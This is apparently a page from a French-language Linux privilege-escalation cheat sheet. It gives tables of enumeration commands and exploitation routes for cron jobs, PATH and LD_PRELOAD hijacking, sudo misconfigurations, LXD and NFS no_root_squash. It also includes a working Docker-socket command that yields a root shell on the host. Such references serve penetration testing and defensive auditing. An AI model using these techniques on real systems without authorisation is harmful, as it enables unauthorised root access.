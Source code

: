### 🔴 Cron jobs exploitables
| Vérification | Commande | Exploitation |
|--------------|----------|--------------|
| **Cron writable** | `ls -la /etc/cron*` | Modifier scripts existants |
| **Scripts cron writable** | `find /etc/cron* -type f -writable 2>/dev/null` | Injecter commandes |
| **Cron PATH hijacking** | `cat /etc/crontab \| grep PATH` | Créer binaires malveillants dans PATH |
| **User crontab** | `crontab -l` puis `ls -la` sur scripts | Modifier scripts utilisateur |

### 🔴 Services et démons vulnérables
| Service | Vérification | Exploitation |
|---------|--------------|--------------|
| **Docker socket** | `ls -la /var/run/docker.sock` | `docker run -v /:/mnt --rm -it alpine chroot /mnt sh` |
| **LXD group** | `id \| grep lxd` | Escalation via conteneurs LXD |
| **Systemd services** | `find /etc/systemd -writable 2>/dev/null` | Modifier services systemd |

### 🔴 Variables d'environnement dangereuses
| Variable | Vérification | Exploitation |
|----------|--------------|--------------|
| **LD_PRELOAD** | `sudo -l \| grep LD_PRELOAD` | Injection de bibliothèque |
| **LD_LIBRARY_PATH** | `sudo -l \| grep LD_LIBRARY_PATH` | Hijacking de bibliothèques |
| **PATH** | `sudo -l \| grep env_keep.*PATH` | PATH hijacking |

### 🔴 Sudo misconfigurations avancées
| Misconfiguration | Vérification | Exploitation |
|------------------|--------------|--------------|
| **NOPASSWD: ALL** | `sudo -l \| grep NOPASSWD.*ALL` | Accès root direct |
| **Wildcards dangereux** | `sudo -l \| grep "\*"` | Exploitation de wildcards |
| **Env_keep dangereux** | `sudo -l \| grep env_keep` | Variables d'environnement préservées |
| **Sudo sans TTY** | `sudo -l \| grep "!requiretty"` | Exécution sans terminal |

### 🔴 NFS et partages réseau
| Vérification | Commande | Exploitation |
|--------------|----------|--------------|
| **NFS no_root_squash** | `cat /etc/exports \| grep no_root_squash` | Monter en tant que root |
| **NFS exports** | `showmount -e localhost` | Voir partages exportés |
| **Samba writable** | `smbclient -L localhost` | Partages Samba accessibles |

---
